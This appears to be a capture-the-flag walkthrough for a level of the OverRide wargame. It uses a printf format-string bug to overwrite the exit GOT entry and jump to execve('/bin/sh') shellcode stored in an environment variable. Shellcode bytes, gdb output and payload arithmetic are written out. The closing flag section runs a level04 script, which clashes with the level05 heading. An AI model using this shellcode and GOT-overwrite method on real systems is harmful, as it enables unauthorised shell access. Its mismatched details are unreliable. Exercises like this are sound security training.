 # level05 walkthrough

## the binary
``` shell
level05@OverRide:~$ ./level05
MARvIN
marvin
```

## methodology
- shellcode + format string attack

The `main` function uses `printf` to output raw array data, which we can leverage to display the variables stored on the stack:
``` shell
level05@OverRide:~$ python /tmp/print_stack.py | ./level05 
aaaa 0x64 0xf7fcfac0 0xf7ec3af9 0xffffd5ef 0xffffd5ee (nil) 0xffffffff 0xffffd674 0xf7fdb000 0x61616161 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520
```

Next, we store the shellcode in an environment variable and display its address - the shellcode is credited to J. P. Pereira: [x86 execve("/bin/sh") - 28 bytes](https://shell-storm.org/shellcode/files/shellcode-811.html):
``` shell
level05@OverRide:/tmp$ export SCODE=`python -c 'print("\x90" * 150 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
level05@OverRide:/tmp$ gcc -m32 addr.c -o addr
level05@OverRide:/tmp$ ./addr
SCODE set at 0xffffd788
```

The environment variable will be used to replace the `exit` function, after we identify its address:
``` shell
(gdb) i func exit
All functions matching regular expression "exit":

Non-debugging symbols:
0x08048370  exit
0x08048370  exit@plt
(gdb) x/i 0x08048370
   0x8048370 <exit@plt>:	jmp    *0x80497e0
```

Our payload is generated using an attached script. We need to split the shellcode because of the large numbers involved, as we cannot write a full 32-bit value all at once (shellcode is split into two 16-bit parts and separately injected into the lower and upper 2 bytes of the `exit` function):
``` shell
(gdb) p 0xffff
$1 = 65535
(gdb) p 0xd788
$2 = 55176
(gdb) p 55176-8
$3 = 55168
(gdb) p 65535-55176
$4 = 10359
```

## flag
``` shell
level04@OverRide:~$ python /tmp/payload04.py > /tmp/flag4
level04@OverRide:~$ cat /tmp/flag4 - | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
